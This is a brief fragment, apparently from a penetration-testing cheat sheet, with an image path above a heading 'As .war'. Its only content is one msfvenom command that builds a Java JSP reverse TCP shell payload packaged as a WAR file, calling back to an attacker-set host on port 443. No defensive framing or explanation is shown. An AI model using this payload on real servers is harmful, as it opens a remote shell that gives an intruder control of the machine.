 ### As .war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f war -o shell.war
```

